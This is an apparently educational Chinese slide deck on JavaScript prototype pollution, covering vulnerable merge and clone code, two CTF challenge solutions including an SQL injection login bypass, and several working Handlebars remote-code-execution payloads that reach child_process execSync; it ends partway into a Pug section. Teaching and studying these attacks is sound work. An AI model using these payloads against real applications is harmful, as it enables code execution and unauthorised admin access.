









---
# You can also start simply with 'default'
theme: default
# random image from a curated Unsplash collection by Anthony
# like them? see https://unsplash.com/collections/94734566/slidev
background: https://cover.sli.dev
# some information about your slides (markdown enabled)
title: Web Security Slides
# apply unocss classes to the current slide
class: text-center
# https://sli.dev/features/drawing
drawings:
  persist: false
# slide transition: https://sli.dev/guide/animations.html#slide-transitions
transition: slide-left
# enable MDC Syntax: https://sli.dev/features/mdc
mdc: true
---

<!-- markdownlint-disable single-title no-inline-html heading-style blanks-around-headings -->

# Web 安全常见漏洞

Mix

<PoweredBySlidev mt-10 />

<div class="abs-br m-6 text-xl">
  <a href="https://github.com/mnixry" target="_blank" class="slidev-icon-btn">
    <carbon:logo-github />
  </a>
</div>

<!--
The last comment block of each slide will be treated as slide notes. It will be visible and editable in Presenter Mode along with the slide. [Read more in the docs](https://sli.dev/guide/syntax.html#notes)
-->

---
layout: center
transition: fade-out
---

# 常见漏洞：原型链污染

原型链污染 (Prototype Pollution) 是一种通过修改对象原型来实现的漏洞，导致了一些意外的行为。该漏洞主要发生在 JavaScript 中，在其他语言例如 Python 中也有类似的问题。

```js
// 原型链污染
Object.prototype.isAdmin = true;
```

```js
// 检查用户是否为管理员
if (user.isAdmin) {
  console.log("Admin access granted");
}
```

<style>
h1 {
  background-color: #2B90B6;
  background-image: linear-gradient(45deg, #4EC5D4 10%, #146b8c 20%);
  background-size: 100%;
  -webkit-background-clip: text;
  -moz-background-clip: text;
  -webkit-text-fill-color: transparent;
  -moz-text-fill-color: transparent;
}
</style>

---
layout: image-right
image: ./images/jetbrains-pl-rank.png
---

## 为什么我们会对原型链污染感兴趣？

- JavaScript 生态工具链纷杂繁复，依赖众多

  - 38% 的流行包处于不活跃状态，很可能存在安全风险 （2022）

- 这种漏洞很容易写出来且难以通过常规手段发现 (Linters, SAST)
- 一次污染，全局遭殃

- 可能存在这些漏洞的语言正在变得越来越流行
  - TIOBE：JavaScript rk 6, Python rk 1
  - JetBrains：JavaScript rk 1, Python rk 2

---

## 什么是原型，什么是原型链？

原型 (Prototype) 是主要的 JavaScript 继承特性。在 JavaScript 中，对象是通过使用 `{}` 语法创建的。例如：

```js
const my_object = { a: 1, b: 2 };
```

JSON 是 「JavaScript Object Notation (JavaScript 对象表示法)」 的缩写，所以即使你没有见过 JavaScript，但是也应该对这个语法非常熟悉。

这个对象有两个属性：`a` 和 `b`。如果我们想要访问 `a` 的值，我们可以使用点表示法或括号表示法：

```js {0|1-3|4-5|all}
console.log(my_object.a);
// 输出：1
// 在功能上等同于
console.log(my_object["a"]);
// 也输出：1
```

如果我们想要向对象添加一个新属性，我们可以使用与上面相同的语法，无论是点表示法还是括号表示法：

```js {0|1|2|3-4|all}
my_object.c = 3;
my_object["d"] = 4;
console.log(my_object);
// 输出：{a: 1, b: 2, c: 3, d: 4}
```

---

### 原型基础：对象的 DNA 结构

```javascript
const animal = { eats: true };
const dog = { barks: true };

// 建立原型链连接
Object.setPrototypeOf(dog, animal);

console.log(dog.barks); // true (自有属性)
console.log(dog.eats); // true (继承属性)
```

<div v-click>



</div>

---
layout: two-cols-header
---

### 当 Class 遇上原型：ES6 的语法糖衣

::left::

- ES6

```js {all|2-4|6-8|1-9|11|12-15|16-19|22-23|all}{lines:true}
class Animal {
  constructor(name) {
    this.name = name;
  }

  speak() {
    console.log(`${this.name} makes a noise`);
  }
}

class Dog extends Animal {
  constructor(name) {
    super(name); // 调用父类构造函数
  }

  speak() {
    super.speak();
    console.log("Woof!");
  }
}

const dog = new Dog("Rex");
dog.speak(); // 输出：Rex makes a noise\nWoof!
```

::right::

<div v-click="8" class="ml-xs">

- ES5：

```js {all|1-3|5-7|9-12|13-18|20-22|all}{lines:true}
function Animal(name) {
  this.name = name;
}

Animal.prototype.speak = function () {
  console.log(`${this.name} makes a noise`);
};

function Dog() {
  Animal.call(this); // 调用父类构造函数
}

Dog.prototype = Object.create(Animal.prototype); // 继承原型
Dog.prototype.constructor = Dog; // 设置构造函数
Dog.prototype.speak = function () {
  super.speak();
  console.log("Woof!");
};

var dog = new Dog("Rex"); // BTW，const 和 let 也是 ES6 的特性
dog.speak(); // 输出：Rex makes a noise\nWoof!
```

</div>

<div v-click class="absolute bg-white px-10 left-0px top-100px w-100vw">



</div>

---
layout: two-cols-header
---

### 原型操作：穿越继承链的三种方式

::left::

```js {all|1-4|6-9|11-15|all}{lines:true}
// 1. 通过构造函数
function Animal() {}
const obj = new Animal();
console.log(obj.__proto__ === Animal.prototype); // true

// 2. Object.create 直接指定原型
const protoObj = { x: 1 };
const child = Object.create(protoObj);
console.log(child.x); // 1

// 3. 现代 API 操作
const parent = { y: 2 };
const child = {};
Object.setPrototypeOf(child, parent);
console.log(child.y); // 2
```

<v-clicks>

- 如果是写代码的话，直接修改 `__proto__` 会导致性能问题 （JIT 优化）
- 推荐使用 `Object.create` / `Object.getPrototypeOf` 来操作原型。

</v-clicks>

::right::

<div v-click class="mb-10 pl-xs">

#### `__proto__` 和 `prototype` 的区别

- `__proto__` 是对象上的一个属性，指向对象的原型：

  ```js
  const obj = {};
  obj.__proto__ = { a: 1 };
  console.log(obj.a); // 1
  ```

- `prototype` 是构造函数上的一个属性，指向构造函数内 `this` 的原型：

  ```js
  const Animal = function () {};
  Animal.prototype = { eats: true };

  const dog = new Animal();
  console.log(dog.eats); // true
  ```

</div>

---

### 原型链的尽头：`Object.prototype`

```js {all|1-3|6-8|9-11|all}{lines:true}
const arr = [1, 2, 3];
console.log(arr.__proto__ === Array.prototype); // true
console.log(arr.toString()); // "1,2,3" 来自 Object.prototype

// 追溯完整继承链：
console.log(
  arr.__proto__.__proto__ === Object.prototype, // true
);
console.log(
  arr.__proto__.__proto__.__proto__, // null
);
```

<v-clicks>

- 🚩 所有内置类型（`Array`/`Date` 等）最终都继承自 `Object.prototype`
- 💣 修改 `Object.prototype` 会影响**所有对象**

</v-clicks>

---

## 原型链污染的成因



<v-clicks>

- 🎯 四类高危操作承载 90% 的原型链污染漏洞
- 🔥 用户输入 → 危险 API → 原型篡改 的三段式攻击链

</v-clicks>

---

### 漏洞代码沙盘：递归合并陷阱

```js {monaco-run}
// 危险的对象合并实现
function merge(target, source) {
  for (const key in source) {
    if (typeof source[key] === "object" && source[key] !== null) {
      if (!target[key]) {
        target[key] = {};
      }
      merge(target[key], source[key]); // 递归陷阱
    } else {
      target[key] = source[key]; // 污染触发点
    }
  }
}

// 攻击者输入
const maliciousPayload = JSON.parse('{"__proto__":{"isAdmin":true}}');
merge({}, maliciousPayload); // 发起污染攻击

console.log({}.isAdmin); // 输出 true
```

---

### 动态属性赋值的黑暗面

```js {monaco-run}
function setValue(obj, key, value) {
  const segments = key.split(".");
  const lastSegment = segments.pop();
  for (const segment of segments) {
    const accessor = Array.isArray(obj) ? +segment : segment;
    if (!(accessor in obj)) obj[accessor] = {};
    obj = obj[accessor];
  }
  obj[lastSegment] = value;
}

// 攻击向量
setValue({}, "__proto__.polluted", "HACKED");

// 灾难性后果
console.log({}.polluted); // 输出 "HACKED"
```

<v-clicks>

💣 高危特征：

- 使用 `obj[key] = value` 形式
- 支持通过 `.` 分割的嵌套路径（如 `a.b.c`）

</v-clicks>

---

### 深拷贝引发的血案

```js {monaco-run}
function deepClone(obj) {
  if (typeof obj !== "object" || obj === null) return obj; // 基本类型或 null 直接返回
  if (Array.isArray(obj)) return obj.map(deepClone); // 数组类型
  const clone = {};
  for (const key in obj) clone[key] = deepClone(obj[key]); // 遍历对象属性
  return clone;
}

function register(user, role = "user") {
  delete user.role;
  const session = deepClone(user);
  if (role === "admin") {
    session.isAdmin = true;
  }
  return session;
}

const user = register(JSON.parse('{"__proto__":{"isAdmin":true}}'));
console.log(user.isAdmin); // 输出 true
```

---

## 原型链污染：利用方法

有以下几种思路：

- 影响鉴权参数，结合业务逻辑达成在系统内提升用户权限
- 利用模板引擎解析功能，达成 RCE
- 使用系统内已有的 Gadget 达成 RCE （Node.js `child_process` 等）

---

### 题目：funny login （DiceCTF Quals 2024）

使用提供的容器镜像，启动服务：

```shell
docker load -i funnylogin.tar
docker run --rm -p 3000:3000 funnylogin
```

服务运行后，访问 `http://localhost:3000/` 即可看到相关页面。

如何使用漏洞组合，得到 Flag？

---

#### 解题思路

<v-clicks>

- 首先注意到没有对用户输入进行控制或 sanitization 就直接进行了 SQL 查询。
- 这意味着我们可以注入 SQL 查询，但问题是我们不知道用户是否有 `isAdmin` 为 `true`，因为它是随机的。
- 因此，我们需要找到一种方法来控制 `isAdmin` 的值。
- 注意到 `__proto__` 是 JavaScript 中的一个特殊属性，它指向对象的原型。
- 因此，我们可以将 `__proto__` 作为用户名注入，这样我们就可以做到 `isAdmin[user]==true`。

  ```js
  if (users[id] && isAdmin[user]) {
    return res.redirect("/?flag=" + encodeURIComponent(FLAG));
  }
  ```

- 用户名 `__proto__`，密码 `1' or id=1; --` 即可绕过密码验证。

</v-clicks>

---

### 题目：login please （ImaginaryCTF 2022）

使用提供的容器镜像，启动服务：

```shell
docker load -i loginplease.tar
docker run --rm -p 5001:5001 loginplease
```

服务运行后，访问 `http://localhost:5001/` 即可看到相关页面。

请阅读源码，找到问题所在并得到 Flag。

---

#### 解题思路

<v-clicks>

- `Object.assign` 将一个或者多个源对象中所有可枚举的自有属性复制到目标对象，并返回修改后的目标对象。

```js {monaco-run}
const obj = JSON.parse('{"__proto__":{"username":"admin"}}');
console.log(obj, obj.username === undefined);
Object.assign({}, obj).username;
```

- 同时给出的程序支持传入 `urlencoded` 和 `json` 格式的请求体

  ```js
  app.use(urlencoded({ extended: false }));
  app.use(json());
  ```

  - 因此我们可以通过 `Content-Type: application/json` 来传入 `json` 格式的请求体。

```json
{
  "__proto__": { "username": "admin" },
  "password": "admin"
}
```

</v-clicks>

---
layout: two-cols-header
---

### 利用模板引擎和原型链污染达成 RCE

Web 开发中，模板引擎是一种用于生成 HTML 的工具。它将模板和数据结合起来，以创建可复用的视图组件。

::left::

<v-clicks>

- [EJS](https://ejs.co/)

```js
const ejs = require("ejs"); // 引入EJS模块
const template = `
  <h1>Hello, <%= name %>!</h1>
`; // 定义模板
const data = { name: "John" };
const html = ejs.render(template, data); // 渲染模板
console.log(html);
```

- [Pug](https://pugjs.org/)

```js
const pug = require("pug"); // 引入Pug模块
const template = `
  h1 Hello, #{name}!
`; // 定义模板
const compiledTemplate = pug.compile(template); // 编译模板
const data = { name: "John" };
const html = compiledTemplate(data); // 渲染模板
console.log(html);
```

</v-clicks>

::right::

<v-clicks>

- [Handlebars](https://handlebarsjs.com/)

```js
const handlebars = require("handlebars"); // 引入Handlebars模块
const template = `
  <h1>Hello, {{name}}!</h1>
`; // 定义模板
const compiledTemplate = handlebars.compile(template); // 编译模板
const data = { name: "John" };
const html = compiledTemplate(data); // 渲染模板
console.log(html);
```

</v-clicks>

---
layout: two-cols-header
---

#### 模板引擎的工作原理

::left::

<v-clicks>



- 词法分析：将模板字符串转换为 Token 流
- 语法分析：将 Token 流转换为 AST 树
- 编译：将 AST 转换为可执行的函数
- 执行：执行模板函数，生成 HTML

</v-clicks>

::right::

<v-clicks>



- 但是，如果存在原型链污染，则可以随意修改 AST 树，进而影响生成的代码，最终达到远程代码执行的目的

</v-clicks>

---

#### Handlebars PoC

<v-clicks>

在开始之前，先看看如何使用 Handlebars 模板引擎。

```js
const Handlebars = require("handlebars");

const template = Handlebars.compile("Hello {{ msg }}");
console.log(template({ msg: "posix" })); // Hello posix
```

`Handlebars.compile` 将字符串转换为模板函数，并传递模板中引用的变量。

```js
const Handlebars = require("handlebars");

Object.prototype.pendingContent = `<script>alert(origin)</script>`;

const source = `Hello {{ msg }}`;
const template = Handlebars.compile(source);

console.log(template({ msg: "posix" })); // <script>alert(origin)</script>Hello posix
```

在这里，我们可以通过原型链污染来影响模板的编译过程。通过插入任意字符串到 `Object.prototype.pendingContent` 中，我们可以确定是否存在原型链污染利用的可能性。

</v-clicks>

---

#### Handlebars PoC 解析

这为什么能工作呢？让我们来深入一下 Handlebars 的[源码](https://github.com/handlebars-lang/handlebars.js/blob/master/lib/handlebars/compiler/javascript-compiler.js)。

```js {all|3-11|13-22|all}{lines:true, maxHeight:'60%'}
JavaScriptCompiler.prototype = {
  // ...
  appendContent: function (content) {
    if (this.pendingContent) {
      content = this.pendingContent + content;
    } else {
      this.pendingLocation = this.source.currentLocation;
    }

    this.pendingContent = content;
  },
  // ..
  pushSource: function (source) {
    if (this.pendingContent) {
      this.source.push(
        this.appendToBuffer(
          this.source.quotedString(this.pendingContent),
          this.pendingLocation,
        ),
      );
      this.pendingContent = undefined;
    }

    if (source) {
      this.source.push(source);
    }
  },
};
```

<v-clicks at="1">

- 通过 `appendContent` 函数，将 `pendingContent` 添加到 `source` 中。
- 通过 `pushSource` 函数，将 `pendingContent` 设置为 `undefined`，防止 `pendingContent` 被多次插入。

</v-clicks>

---

#### Handlebars RCE 原理 1



Handlebars 的工作原理如上图所示。

<v-clicks>

- 在词法分析和语法分析生成 AST 之后，它传递给 `compiler.js`。
- 我们可以用一些参数运行模板函数，它返回一个字符串，例如 `“Hello posix”`（当 `msg` 为 `posix` 时）。

</v-clicks>

---

#### Handlebars RCE 原理 2

```text {5}{lines:true, maxHeight:'20%'}
helperName
  : path -> $1
  | dataName -> $1
  | STRING -> {type: 'StringLiteral', value: $1, original: $1, loc: yy.locInfo(@$)}
  | NUMBER -> {type: 'NumberLiteral', value: Number($1), original: Number($1), loc: yy.locInfo(@$)}
  | BOOLEAN -> {type: 'BooleanLiteral', value: $1 === 'true', original: $1 === 'true', loc: yy.locInfo(@$)}
  | UNDEFINED -> {type: 'UndefinedLiteral', original: undefined, value: undefined, loc: yy.locInfo(@$)}
  | NULL -> {type: 'NullLiteral', original: null, value: null, loc: yy.locInfo(@$)}
  ;
```

<v-clicks>

- 在 Handlebars 中，`NUMBER` 类型的节点总是被强制转换为字面量，然后被直接插入到模板的运算结果中。
- 然而，我们可以通过原型链污染来插入非数字字面量，然后从而得到任意字符串的执行。

```js {all|4-6}{lines:true, maxHeight:'30%'}
// https://github.com/handlebars-lang/handlebars-parser/blob/a095229e292e814ed9d113d88c827f3509534d1a/lib/parse.js#L13-L50
export function parseWithoutProcessing(input, options) {
  // Just return if an already-compiled AST was passed in.
  if (input.type === "Program") {
    return input;
  }

  parser.yy = baseHelpers;

  // Altering the shared object here, but this is ok as parser is a sync operation
  parser.yy.locInfo = function (locInfo) {
    return new Helpers.SourceLocation(options && options.srcName, locInfo);
  };

  let squareSyntax;

  if (typeof options?.syntax?.square === "function") {
    squareSyntax = options.syntax.square;
  } else if (options?.syntax?.square === "node") {
    squareSyntax = arrayLiteralNode;
  } else {
    squareSyntax = "string";
  }

  let hashSyntax;

  if (typeof options?.syntax?.hash === "function") {
    hashSyntax = options.syntax.hash;
  } else {
    hashSyntax = hashLiteralNode;
  }

  parser.yy.syntax = {
    square: squareSyntax,
    hash: hashSyntax,
  };

  return parser.parse(input);
}
```

- 在 `parseWithoutProcessing` 函数中，如果 `input.type` 是 `Program`，即使 `input` 的类型实际上是 `String`，解析器也会认为它已经被 `parser.js` 解析过的 AST 节点，然后直接发送给 `compiler.js` 进行编译。

</v-clicks>

---

#### Handlebars RCE 原理 3

```js {all|4-6|8-10|20-21|38|51-54|63|66-71|64|57-61}{lines:true, maxHeight:'60%'}
// https://github.com/handlebars-lang/handlebars-parser/blob/a095229e292e814ed9d113d88c827f3509534d1a/lib/visitor.js
Visitor.prototype = {
  // ...
  Program: function (program) {
    this.acceptArray(program.body);
  },
  // ...
  acceptArray: function (array) {
    for (let i = 0, l = array.length; i < l; i++) {
      this.acceptKey(array, i);

      if (!array[i]) {
        array.splice(i, 1);
        i--;
        l--;
      }
    }
  },
  // ...
  acceptKey: function (node, name) {
    let value = this.accept(node[name]);
    if (this.mutating) {
      // Hacky sanity check: This may have a few false positives for type for the helper
      // methods but will generally do the right thing without a lot of overhead.
      if (value && !Visitor.prototype[value.type]) {
        throw new Exception(
          'Unexpected node type "' +
            value.type +
            '" found when accepting ' +
            name +
            " on " +
            node.type,
        );
      }
      node[name] = value;
    }
  },
  accept: function (object) {
    if (!object) {
      return;
    }

    /* istanbul ignore next: Sanity code */
    if (!this[object.type]) {
      throw new Exception("Unknown type: " + object.type, object);
    }

    if (this.current) {
      this.parents.unshift(this.current);
    }
    this.current = object;

    let ret = this[object.type](object);

    this.current = this.parents.shift();

    if (!this.mutating || ret) {
      return ret;
    } else if (ret !== false) {
      return object;
    }
  },
  MustacheStatement: visitSubExpression,
  NumberLiteral: function (/* number */) {},
};

function visitSubExpression(mustache) {
  this.acceptRequired(mustache, "path");
  this.acceptArray(mustache.params);
  this.acceptKey(mustache, "hash");
}
```

```js {all|3|4|4|4|6|6|8-14|10-12|11-12}{lines:true, maxHeight:'30%', at:1}
const Handlebars = require("handlebars");

Object.prototype.type = "Program";
Object.prototype.body = [
  {
    type: "MustacheStatement",
    path: 0,
    params: [
      {
        type: "NumberLiteral",
        value:
          "console.log(process.mainModule.require('child_process').execSync('id').toString())",
      },
    ],
    loc: {
      start: 0,
      end: 0,
    },
  },
];

const source = `Hello {{ msg }}`;
const template = Handlebars.precompile(source);
```

---

#### Handlebars RCE Exploit

```js {all|3-20|22-23}{lines:true, maxHeight:'45%'}
const Handlebars = require("handlebars");

Object.prototype.type = "Program";
Object.prototype.body = [
  {
    type: "MustacheStatement",
    path: 0,
    params: [
      {
        type: "NumberLiteral",
        value:
          "console.log(process.mainModule.require('child_process').execSync('id').toString())",
      },
    ],
    loc: {
      start: 0,
      end: 0,
    },
  },
];

const source = `Hello {{ msg }}`;
const template = Handlebars.precompile(source);
```

```js {hide|14-24}{lines:true, maxHeight:'45%'}
const template = {
  compiler: [8, ">= 4.3.0"],
  main: function (container, depth0, helpers, partials, data) {
    var stack1,
      lookupProperty =
        container.lookupProperty ||
        function (parent, propertyName) {
          if (Object.prototype.hasOwnProperty.call(parent, propertyName)) {
            return parent[propertyName];
          }
          return undefined;
        };

    return (stack1 = (
      lookupProperty(helpers, "undefined") ||
      (depth0 && lookupProperty(depth0, "undefined")) ||
      container.hooks.helperMissing
    ).call(
      depth0 != null ? depth0 : container.nullContext || {},
      console.log(
        process.mainModule.require("child_process").execSync("id").toString(),
      ),
      { name: "undefined", hash: {}, data: data, loc: { start: 0, end: 0 } },
    )) != null
      ? stack1
      : "";
  },
  useData: true,
};
```

---

#### Handlebars RCE Exploit 变种

基本都大差不差。

```js {hide|1-15|17-30|32-48|50-67|69-83|85-113}{lines:true, maxHeight:'80%'}
// 将 NumberLiteral 替换为 BooleanLiteral
Object.prototype.body = [
  {
    type: "MustacheStatement",
    params: [
      {
        type: "BooleanLiteral",
        value:
          "console.log(process.mainModule.require('child_process').execSync('calc.exe').toString())",
      },
    ],
    path: 0,
    loc: { start: 0 },
  },
];

// 将 MustacheStatement 改为 PartialStatement
Object.prototype.body = [
  {
    type: "PartialStatement",
    name: "",
    params: [
      {
        type: "NumberLiteral",
        value:
          "console.log(process.mainModule.require('child_process').execSync('calc.exe').toString())",
      },
    ],
  },
];

// 将 MustacheStatement 改为 PartialBlockStatement
Object.prototype.body = [
  {
    type: "PartialBlockStatement",
    params: [
      {
        type: "NumberLiteral",
        value:
          "console.log(process.mainModule.require('child_process').execSync('calc.exe').toString())",
      },
    ],
    name: 0,
    openStrip: 0,
    closeStrip: 0,
    program: { body: 0 },
  },
];

// 将 MustacheStatement 改为 BlockStatement
Object.prototype.body = [
  {
    type: "BlockStatement",
    params: [
      {
        type: "NumberLiteral",
        value:
          "console.log(process.mainModule.require('child_process').execSync('calc.exe').toString())",
      },
    ],
    path: 0,
    loc: 0,
    openStrip: 0,
    closeStrip: 0,
    program: { body: 0 },
  },
];

// 触发点和上面的有所差异，这个是在装饰 main 函数的时候插入自定义代码
Object.prototype.body = [
  {
    type: "Decorator",
    params: [
      {
        type: "NumberLiteral",
        value:
          "console.log(process.mainModule.require('child_process').execSync('calc.exe').toString())",
      },
    ],
    path: 0,
    loc: { start: 0 },
  },
];

// 无限内嵌 Hash 类型
Object.prototype.body = [
  {
    type: "MustacheStatement",
    params: [
      {
        type: "Hash",
        pairs: [
          {
            value: {
              type: "Hash",
              pairs: [
                {
                  value: {
                    type: "NumberLiteral",
                    value:
                      "console.log(process.mainModule.require('child_process').execSync('calc.exe').toString())",
                  },
                },
              ],
            },
          },
        ],
      },
    ],
    path: 0,
    loc: { start: 0 },
  },
];
```

---
layout: two-cols-header
---

#### Pug PoC

::left::

<v-clicks>

- 一般使用 Pug 模板引擎的方法如下：

  ```js {*}{lines:true}
  const pug = require("pug");

  const source = `h1= msg`;

  var fn = pug.compile(source);
  var html = fn({ msg: "It works" });

